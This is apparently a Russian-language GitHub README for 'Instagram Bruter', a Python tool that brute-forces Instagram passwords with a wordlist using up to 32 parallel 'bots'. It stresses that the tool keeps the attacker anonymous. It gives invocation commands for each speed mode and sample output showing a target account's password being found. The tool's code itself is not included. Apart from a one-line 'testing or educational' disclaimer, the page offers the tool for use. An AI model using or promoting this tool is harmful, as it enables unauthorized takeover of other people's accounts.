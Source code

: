 # Instagram Bruter

Брутфорсер Instagram. Просто дайте ему цель, список паролей и режим, затем нажмите ввод и забудьте об этом. Высшим приоритетом этой программы является ваша анонимность, она атакует только тогда, когда ваша личность скрыта.

⚠️Этот проект должен использоваться только для тестирования или образовательных целей.

### УВЕДОМЛЕНИЕ

Я больше не поддерживаю этот проект, это последняя версия.

### Требования

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Установить зависимости

```
pip3 install -r requirements.txt
```

### Помощь

```
C:\Users\kotanoff\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] ник список

позиционные аргументы:
  ник              электронная почта или имя пользователя
  список              список паролей

необязательные аргументы:
  -h, --help            показать это справочное сообщение и выйти
  -m MODE, --mode MODE  modes: 0 => 32 бота; 1 => 16 ботов; 2 => 8 ботов; 3 => 4 бота
```

### Применение

```
python3 instagram.py <ник> <список> -m <режим>
```

### Боты(Threads)

-   4 бота: 64 пароля за раз
-   8 ботов: 128 паролей за раз
-   16 ботов: 256 паролей за раз
-   32 бота: 512 паролей за раз

### Режимы

-   0: 32 бота
-   1: 16 ботов
-   2: 8 ботов
-   3: 4 бота

### Chill mode

В этом режиме одновременно используются только 4 бота или 64 пароля.

```
C:\Users\kotanoff\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 3
```

### Умеренный режим 1

В этом режиме одновременно используется 8 ботов или 128 паролей.

```
C:\Users\kotanoff\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 2
```

### Умеренный режим 2

В этом режиме одновременно используется 16 ботов или 256 паролей.

```
C:\Users\kotanoff\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 1
```

### Дикий режим

В этом режиме одновременно используется 32 бота или 512 паролей.

```
C:\Users\kotanoff\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 0
```

### Если вы не укажете режим, тогда будет установлено значение 2.

### Запуск

```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Стоп

```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
